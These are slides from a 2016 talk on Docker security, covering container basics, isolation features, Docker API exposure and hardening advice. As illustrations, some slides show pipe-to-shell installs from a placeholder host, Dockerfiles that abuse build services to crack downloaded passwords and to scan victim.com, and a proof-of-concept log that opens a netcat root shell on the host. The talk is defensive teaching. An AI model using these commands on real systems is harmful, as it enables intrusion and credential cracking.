


Docker Security
Is it secure enough for me?
Vlatko Kosturjak (@k0st), DORS/CLUC 2016, Zagreb, 11th of May, 2016
Agenda
- Introduction
- Application containers and Docker
- How to use them
- Docker API
- Docker security
- Recommendations
- Summary
- Questions and answers
30 minutes
About me
- Security Consultant in Diverto
- Open source (security) developer
- Have code in OpenVAS, Nmap, Metasploit, ...
- https://github.com/kost
- Securing DevOps
- Helping clients in DevOps security
- DORS/CLUC and HULK
- was president of CLUG/HULK
- was part of organizing comittee of DORS/CLUC 2016
Application Containers
- "Virtualization" on application level
- Same kernel
- Several application
- Advantages
- Better resource utilization
- Isolation
Docker Hosting
- Amazon
- Tutum
- Other
- sloppy.io, stackdock.com, orchardup.com, ...
Docker
- "chroot on steroids"
- application containers
- layer "above LXC" (actually libcontainer)
- same kernel
- Control Groups (cgroups) and namespaces
- own network stack and process space
- Written mostly in Go
- References
Docker basic
- containers
- instances of images
- you can have multiple containers with same or different image
- Analogies
- programmer: think of object
- Amazon: similar to EC2 (EC2 vs AMI)
- images
- images are basis for creating containers
- Analogies
- programmer: think of classes
- Same as AMIs in Amazon context
- can have multiple tags
Common docker commands
| Command | Description |
|---|---|
| docker ps | list running containers |
| docker ps -as | list ALL containers with size |
| docker images | list local images |
| docker search [term] | search remote central repo for image |
| docker run [imagename] | creates container from [imagename] |
| docker start [cont] | starts already created container |
| docker stop [cont] | stops started container |
Docker security
- Dependencies
- Physical security
- Hardware
- Host Operating system (drivers included)
- Programming languages used (Go mostly)
- Docker itself & components
- Images and containers
- Application itself & components
- People
- Organization
- The hardest part
- It needs only one item to fail
Two ways building
- Dockerfile
FROM debian:latest
RUN apt-get update && apt-get install mysql-server
docker commit
docker diffs
Common problem
- If you have to use something like this
FROM debian:latest
RUN wget http://some.really.cool.app/install.sh -O - | sh
FROM debian:latest
RUN wget https://some.really.cool.app/install.sh -O - | sh
Docker building abuse
- Limits
- 2 hours
- 2 GB RAM
- 1 CPU
- 30 GB disk space
- How you will define this?
- Free Computing Resources
Docker building abuse
- Cracking passwords
FROM debian:latest
RUN apt-get update && apt-get install john
RUN wget http://rawpastebin.com/bXXXXXX -O /tmp/passwords
RUN john /tmp/passwords
FROM debian:latest
RUN apt-get update && apt-get install nmap
RUN nmap -sT -V -O -p- victim.com
Docker security
- Comes with reasonable security settings
- container with reduced number of capabilities
- docker control socket/API only on UNIX socket
- grsec/PAX compatible
- SELinux/Apparmor compatible
- Example
- You need service to listen on port below 1024
- just give net_bind_service capabilities
Docker user namespaces
- own user namespace missing in older versions
- UID 31337 in container = UID 31337 on host
- UID 0 in container = UID 0 on host
- implemented in Docker 1.10!
- https://s3hh.wordpress.com/2013/07/19/creating-and-using-containers-without-privilege/
- References
Docker Seccomp profiles
- syscall filtering in Docker 1.10!
- allow
- deny
- trap
- kill
- trace
- Define syscalls in JSON
- --security-opt seccomp:myrules.json
- --security-opt seccomp:unconfined
- References
Docker API
- Docker control is done through
- UNIX socket (by default)
- TCP server
- HTTP server (REST API)
- Expose it and you're owned
- GUI frontends and parameter tampering
- Not just containers, but host as well
- docker_get_host_shell.rb PoC
- References
docker_get_host_shell.rb Example
$ ./docker_get_host_shell.rb -p 31337
W, [2015-09-12T03:15:50.224295 #11995] WARN -- : Container IP address: 172.17.0.97
W, [2015-09-12T03:15:50.224832 #11995] WARN -- : Executing shell: nc -e /bin/sh -lvp 31337
$ nc -vv 172.17.0.97 31337
(UNKNOWN) [172.17.0.97] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys)
docker_get_host_shell.rb
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys)
docker version
Client:
Version: 1.8.1
API version: 1.20
Go version: go1.4.2
Git commit: d12ea79
Built: Thu Aug 13 02:28:37 UTC 2015
OS/Arch: linux/amd64
Server:
Version: 1.8.1
API version: 1.20
Go version: go1.4.2
Git commit: d12ea79
Built: Thu Aug 13 02:28:37 UTC 2015
OS/Arch: linux/amd64
Docker API Recommendations
- Do not expose Docker API over network
- If you still have to
- Use VPN
- Use TLS certificates
- In short
- only trusted users should be allowed to control your Docker daemon
- References
Docker recommendations
- General
- same security profile/level on same docker host
- take a look at CIS Docker benchmarks
- CIS benchmarks stack up
- Take Debian CIS benchmarks if using Debian Host
- define limits
- Networking
- icc=false
- net=host can reboot your host
- Expose only needed ports in Dockerfile
Docker Images recommendations
- General
- Base your images on trusted images
- USER directive is your friend
- Smaller image is smaller exposure
- Don't install packages you might need
- Don't build with SSH daemon
- Don't build all images from ubuntu images
- Check imagelayers.io
- ImageLayers Comparison
- Consider Debian and Alpine
Alpine Linux and Docker
- security-oriented
- lightweight Linux distribution
- based on musl libc and busybox
- https://marc.info/?l=owl-users&m=141991034310376&w=2
- Examples
“...For example, I think Alpine Linux may be a good distro to contribute to. Surely there are others... ” -Solar Designer
Docker example
Alpine Linux, but...
- References

dockscan
-

- References
dockscan
- Features
- plugin based system for discovery, audit and reporting
- able to scan local and remote docker installations
- plugins are easy to write
- Requirements
- Ruby
- docker-api gem
dockscan alternatives
- dockbench
- Docker Security Scanning
- ex. Project Nautilus
- https://blog.docker.com/2016/05/docker-security-scanning/
- OpenSCAP compliance
- CoreOS Clair
Summary
- Application containers will not vanish
- Growing business
- Growing technology
- You have two paths
- Hate and rant
- Help and make it secure